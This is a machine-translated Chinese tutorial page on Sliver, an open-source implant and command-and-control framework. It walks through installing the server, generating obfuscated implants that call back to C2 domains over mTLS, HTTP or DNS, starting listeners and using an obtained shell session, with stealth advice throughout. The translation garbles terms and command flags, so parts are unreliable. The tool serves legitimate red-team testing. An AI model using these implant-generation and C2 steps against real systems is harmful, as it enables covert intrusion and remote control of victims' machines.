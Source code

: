 # 银:植入物框架

> 原文：<https://kalilinuxtutorials.com/sliver-implant-framework/>

**silver**是一个通用的跨平台植入框架，支持基于 Mutual-TLS、HTTP(S)和 DNS 的 C2。植入是用唯一的 X.509 证书动态编译的，该证书由第一次运行二进制文件时生成的每个实例的证书颁发机构签名。

服务器、客户端和植入物都支持 MacOS、Windows 和 Linux(可能支持每一个 Golang 编译器目标，但我们没有对它们全部进行测试)。

**警告:**条子目前在**阿尔法**，你已经被警告了

**特性**

*   动态代码生成
*   编译时混淆
*   本地和远程过程注入
*   反反反反取证
*   [通过 mTLS、HTTP(S)和 DNS 保护 C2](https://github.com/BishopFox/sliver/wiki/Transport-Encryption)
*   Windows 进程迁移
*   Windows 用户令牌操作
*   多人模式
*   通过 HTTP 程序生成的 C2*(工作进行中)*
*   让我们加密集成
*   内存中。NET 程序集执行
*   [DNS 金丝雀](https://github.com/BishopFox/sliver/wiki/DNS-C2#dns-canaries)蓝队检测

**也可阅读:[Konan-高级网络应用目录扫描仪](https://kalilinuxtutorials.com/konan-web-application-dir-scanner/)**

**入门**

该服务器支持 Linux、Windows 和 MacOS，但是我们建议在 Linux 主机上运行该服务器，一些功能在 Windows 或 MacOS 服务器上运行可能会更困难，但是所有基本的内置功能都应该工作正常。

为您的平台下载最新的[版本](https://github.com/BishopFox/sliver/releases)，并运行二进制文件。第一次运行服务器时，它需要解包一些资产，这可能需要一两分钟，随后的启动应该会更快。

**注意:**silver 对可选特性有两个外部依赖:MinGW 和 Metasploit。要启用外壳代码/分段有效负载，您需要安装 MinGW。要启用 MSF 集成，您需要安装 Metasploit。

Sliver 的构建主要是为运行单元测试而设计的，但是同时包含了 MinGW 和 Metasploit。如果您计划使用 Docker 运行服务器，您需要自己转发适当的 TCP 端口(例如 80、443、31337)。

**MinGW 设置**

为了启用 shellcode/staged/DLL 有效负载，您需要在服务器上安装 MinGW(连接到服务器的客户端不需要安装)。默认情况下，Sliver 将在通常的地方查找 MinGW 二进制文件，但是您可以使用[环境变量](https://github.com/BishopFox/sliver/wiki/Environment-Variables) `SLIVER_CC`来覆盖它。

**Linux**

**apt-get 安装 mingw-w64 binutils-mingw-w64 g++ mingw-w64**

**MacOS**

**brew 安装 mingw-w64**

**Metasploit 设置**

我们强烈建议使用[夜间框架安装程序](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)，Sliver 期望版本 5 或更高版本。

**生成植入物**

使用`generate`命令生成植入物，必须使用`--mtls`、`--http`或`--dns`指定至少一个 C2 端点。注意，当一个植入试图连接到使用`--http`指定的端点时，它将尝试 HTTPS，然后尝试 HTTP(如果 HTTPS 失败)。

我们建议尽可能使用相互 TLS ( `--mtls`)。你也可以用`--save`指定一个输出目录，默认情况下植入会保存到当前工作目录。

**silver>generate–mtls example.com–save/Users/moloch/Desktop

[*]生成新的 windows/amd64 silver 二进制文件
[*]符号混淆已启用，此过程大约需要 15 分钟
[*]构建在 00:10:16
[*]silver 二进制文件保存到:/Users/moloch/Desktop/NEW _ grape . exe**

**重要提示:**根据服务器的 CPU 资源，符号混淆过程可能需要 15 分钟以上才能完成。您可以使用`--skip-symbols`跳过这一步，但是许多粗略的信息将会出现在生成的二进制文件中。如果你只是玩玩，或者不在乎潜行，你应该只使用这个标志。

银植入是跨平台的，您可以用`--os`标志改变编译器目标:

silver > generate–mtls example.com–save/Users/moloch/Desktop–skip-symbols–OS MAC

[*]生成新的 Darwin/amd64 silver 二进制文件
[！]符号混淆被禁用
[*]构建完成于 00:00:03
[*]银二进制文件保存到:/Users/moloch/Desktop/PROPER _ ANTHONY

服务器还将为每个生成的二进制文件分配代码名，即`NEW_GRAPE.exe`你可以根据需要将文件重命名为任何名称，但这些代码名仍将唯一标识生成的二进制文件(它们是在编译时插入的)。您还可以使用`slivers`命令查看所有先前生成的植入二进制文件:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE

```

如果需要重新下载之前生成的植入，使用`regenerate`命令:

切片>重新生成–保存/Users/moloch/Desktop/NEW _ GRAPE

[*]切片二进制文件保存到:/Users/moloch/Desktop/NEW _ GRAPE . exe

**获取炮弹**

在捕捉 shell 之前，首先需要启动一个监听器。您使用命令`mtls`、`http`、`https`和`dns`来启动每个协议的监听器(记住用`--http`指定的端点可以连接到以`https`开始的监听器)。您可以使用`jobs`命令来查看和管理在后台运行的监听器。

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888 
```

在本例中，我们使用的是 Mutual TLS，设置和保护该连接所需的证书已经在后台生成，客户端证书对在编译时嵌入到植入物中。因此，要获得 shell，您只需在目标上运行二进制文件。

[*]Session # 1 PROPER _ ANTHONY–127 . 0 . 0 . 1:49929(narvi . local)-Darwin/amd64

silver>use 1

[*]Active silver PROPER _ ANTHONY(1)

silver(PROPER _ ANTHONY)>ls

/Users/moloch/Desktop
= = = = = = = = = = = = = = = = = =
。KiB DS _ Store 6.0
。本地化 0b
PROPER _ ANTHONY 6.3 MiB

**多个域/协议**

在生成过程中，您可以指定多个域和协议。现在，当连接失败时，Sliver 将首先尝试使用性能最好的协议(MTLS -> HTTP(S) -> DNS)，然后使用后续的域/协议。

silver > generate–mtls example.com–http foobar.com–DNS 1 . lil-peep . rip

最后，我们将添加一个功能来手动指定后备协议，或者您可以添加这个功能并发送一个 PR。

[**Download**](https://github.com/BishopFox/sliver)